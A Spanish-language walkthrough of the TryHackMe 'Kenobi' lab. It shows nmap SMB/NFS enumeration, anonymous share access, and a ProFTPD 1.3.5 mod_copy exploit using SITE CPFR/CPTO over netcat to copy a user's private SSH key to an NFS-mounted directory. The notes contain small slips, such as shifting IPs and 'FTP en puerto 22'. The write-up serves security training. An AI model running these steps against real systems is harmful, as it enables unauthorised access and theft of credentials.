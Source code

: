 https://tryhackme.com/room/kenobi

## Checar los puertos abiertos y checar los samba shares

- nmap 10.10.56.240 -vvv   //para ver los puertos abiertos del servidor
- //samba se usa para acceder a recursos, printers, etc en internet o intranet
- //se puede usar un script de nmap para enumerar los samba shares
- nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.56.240
- //se encuentran 3 ( IPC Service, hidden y printer) con acceso de read/write, read/write, none

----

## Entro a los shares 

- smbclient //10.10.221.228/anonymous
- smbget -R smb://10.10.221.228/anonymous para bajar el contenido directo
- cat log.txt para ver que trae el log file
![image](https://user-images.githubusercontent.com/44788583/148824837-9c9a2abc-9706-41e5-aa1f-d50df520dafb.png)
FTP en puerto 22

----

## Enumerar puerto 111 rpcbind

- nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.226.148

![image](https://user-images.githubusercontent.com/44788583/149047664-f113a09e-5c64-4aa7-9aa1-68ac71587920.png)

------

## Me conecto por netcat al puerto 21 que es el default de FTP , Pro FTPd es un servidor FTP open source 

![image](https://user-images.githubusercontent.com/44788583/149048118-22910ea9-87d1-49e9-8ac2-3d7f392c6bac.png)
 Ahí se puede ver que la versión es 1.3.5 
 
 - Ahora se buscan los exploits como si fuera xploit db con el siguiente comando: searchsploit proftpd 1.3.5

searchsploit proftpd 1.3.5

![image](https://user-images.githubusercontent.com/44788583/149048266-167fb787-38f1-4cf7-99c3-745367d40c55.png)

![image](https://user-images.githubusercontent.com/44788583/149048768-a7280eb2-111c-4eb8-80c7-91a96366ffc7.png)

-Se encuentran 4 posibles xploits. 3 de 1.3.5 específico y 1 de 1.3.x

![image](https://user-images.githubusercontent.com/44788583/149190534-0b4c6ed4-c77e-41f8-a1af-7dce81601728.png)

- nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.56.240
- Se pueden ver exploits con mod_copy que usan los comandos SITE CPFR and SITE CPTO  que copian archivos y carpetas de un lugar a otro. El servicio FTP está corriendo como el usuario Kenobi y debe haber un ssh key para ese usuario.

---------
 
## Nos metemos con netcat de nuevo y vemos el usuario de kenobi en home/kenobi

- nc 10.10.137.58 21 conexión por netcat en puerto 21
- Ahora se copiara el id_rsa a la carpeta /var/tmp por medio de los siguientes comandos: SITE CPFR /home/kenobi/.ssh/id_rsa
 y luego SITE CPTO /var/tmp/id_rsa

![image](https://user-images.githubusercontent.com/44788583/149191989-9182ccc3-4bed-4e9a-b274-4ec34d2487a6.png)

------
## Montar /var/tmp en nuestra máquina 

- mkdir /mnt/kenobiNFS 
- mount machine_ip:/var /mnt/kenobiNFS
- ls -la /mnt/kenobiNFS
